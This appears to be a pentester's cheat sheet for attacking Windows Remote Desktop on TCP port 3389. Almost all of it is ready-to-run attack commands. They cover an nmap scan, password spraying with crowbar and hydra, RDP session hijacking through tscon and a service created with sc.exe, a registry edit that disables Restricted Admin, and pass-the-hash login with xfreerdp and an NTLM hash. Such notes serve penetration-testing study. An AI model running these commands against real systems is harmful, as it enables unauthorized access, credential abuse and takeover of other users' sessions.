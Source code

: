 
TCP/3389

```shell-session
nmap -Pn -p3389 192.168.2.143 
```

- Password spraying
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

Login:
```shell-session
rdesktop -u admin -p password123 192.168.2.143
```

##### RDP Session Hijacking
- must have SYSTEM privileges
- Use PsExec or Mimikatz to escalate privileges if local admin
```cmd-session
query user
```
```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 4 /dest:rdp-tcp#13"

```cmd-session
net start sessionhijack
```

##### Pass the Hash

Add registry key to disable restricted admin
```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```shell-session
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

